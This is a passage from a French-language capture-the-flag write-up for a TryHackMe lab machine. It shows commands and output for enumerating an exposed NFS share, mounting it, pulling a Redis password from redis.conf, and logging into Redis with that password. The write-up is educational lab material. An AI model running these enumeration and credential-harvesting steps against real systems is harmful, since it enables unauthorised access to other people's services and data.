- Pour le port `111` j'utilise l'outil `showmount` pour trouver des informations sur le server NFS
```sh
─# showmount -e 10.10.220.246
Export list for 10.10.220.246:
/opt/conf *
```
Ok donc la je vais monter ce partage NFS que je viens de trouver.

```sh
└─# mount -o nolock 10.10.220.246:/opt/conf mnt 
# ls mnt 
hp  init  opt  profile.d  redis  vim  wildmidi
                                                                                                                                     
┌──(root㉿bloman)-[/home/bloman/CTFs/TryHackMe]
└─# ls mnt/redis
redis.conf
```

Nous trouvons une configuration `redis.conf` contenant un mot de passe. 

```sh
#
# 2) if slave-serve-stale-data is set to 'no' the slave will reply with
#    an error "SYNC with master in progress" to all the kind of commands
#    but to INFO and SLAVEOF.
#
slave-serve-stale-data yes
requirepass "B65Hx562F@ggAZ@F"
```

Nous vérifions si le service `Redis` est ouvert avec `netcat`.
```sh
─# nc -nv 10.10.220.246 6379
(UNKNOWN) [10.10.220.246] 6379 (redis) open
```

Maintenant je vais utiliser l'outil `redis-cli` pour m'y connecter

```sh
─# redis-cli -h 10.10.220.246 --pass 'B65Hx562F@ggAZ@F'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.220.246:6379> INFO
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:7.4.0
process_id:489
run_id:94d8fdcc6c56026d36bd87180f925f9ca616ba31
tcp_port:6379
uptime_in_seconds:1653
uptime_in_days:0
hz:10
lru_clock:4700236
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
```
